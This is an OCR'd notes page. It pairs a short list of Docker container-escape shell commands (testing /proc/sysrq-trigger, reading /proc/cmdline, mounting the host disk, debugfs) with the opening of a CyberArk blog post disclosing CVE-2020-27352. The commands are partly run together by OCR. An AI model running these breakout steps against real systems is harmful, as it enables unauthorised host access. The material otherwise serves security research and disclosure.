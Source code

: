 
##
#
https://www.cyberark.com/resources/threat-research-blog/the-strange-case-of-how-we-escaped-the-docker-default-container
#
##

```
 ### Check if You Can Write to a File-system
$ echo 1 > /proc/sysrq-trigger

### Check root UUID
$ cat /proc/cmdlineBOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300- Check Underlying Host Filesystem
$ findfs UUID=<UUID Value>/dev/sda1- Attempt to Mount the Host's Filesystem
$ mkdir /mnt-test
$ mount /dev/sda1 /mnt-testmount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

### debugfs (Interactive File System Debugger)
$ debugfs /dev/sda1
```


The Strange Case of How We Escaped the Docker Default Container
Nimrod Stoler And Gilad Reti3/4/21
Share This!
FACEBOOK
TWITTER
EMAIL
LINKEDIN
Escaping the Docker Default Container

TL;DR
During an internal container-based Red Team engagement, the Docker default container spontaneously and silently changed cgroups overnight, which allowed us to escalate privileges and gain unabridged root access to the host machine. We were able to use this escalation of cgroups to run a reverse shell on the host and gain code execution.

This issue was a result of bad configurations in Canonical’s Snap and affected a multitude of products. It was assigned CVE-2020-27352[i], with CVSS 3 base score of 9.3 [ii] and critical severity [iii].

By default, snaps refresh to the latest version every four hours, so it is most likely that your system is already running the fixed version. If you want to make sure that you have refreshed your package, you can run snap refresh to force an immediate refresh.

Introduction
This is the story of a Docker container changing its characteristics, quietly, overnight, from a decent default Docker container well known for its robustness and security, to a privileged container that allowed us unabridged direct access to the underlying host, which led to code execution on the host and CVE-2020-27352.

This quiet, sudden, overnight transformation we saw of the default Docker container, reminded us of the transformation of personalities in Robert Luis Stevenson’s 1886 novella, “The Strange Case of Dr. Jekyll and Mr. Hyde,[iv]” so you’ll see some references to that in the context of this blog. We’ll include some (relevant) quotations from this seminal piece of literature along the way.
